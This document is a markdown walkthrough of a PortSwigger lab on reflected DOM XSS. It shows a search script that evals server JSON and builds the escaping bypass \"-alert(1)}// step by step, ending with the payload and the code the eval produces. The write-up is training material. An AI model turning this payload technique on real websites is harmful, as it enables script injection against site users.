



# DOM XSS 

## 1) Reflected DOM XSS with insecure JSON escaping
* Ref: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected


XXX.com/?search=evil


Into the page we can find the following script inclusion:
* `<script src="resources/js/searchResults.js"></script>`

searchResult.js

```
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName
            ... ... ... ... ... ... ... ... ... ... 
            ... ... ... ... ... ... ... ... ... ... 
```

The *search* function is invoked by the page code.
As we can see in the snipped code above, it presents a *XMLHttpRequest* whose response (if readyState ==4 and status == 200) is directly inserted into the *eval* function:
* `eval('var searchResultsObj = ' + this.responseText);`

Let's see how the request works...

Simple *alert(1)* payload:
<br><br>

as we can see, the double quote (*""*) is escaped...

<br><br>

however, we can try to "break" out from the json object by injecting `\"alert(1)`. As we can see, the backslash character is not escaped:

<br><br>

now, let's fix the result by injecting the full payload `\"-alert(1)}//` (it adds a final comment):

<br><br>

The result is the following code:
```
eval('var searchResultsObj = ' +
  	"{\"searchTerm\":\"\\\\\"-alert(1)}//\",\"results\":[]}")
```

the *eval* function will "generate" the following js code from the input string:

<br><br>


You can test the payload here: 
* https://jsfiddle.net/1oyuhpc5/14/


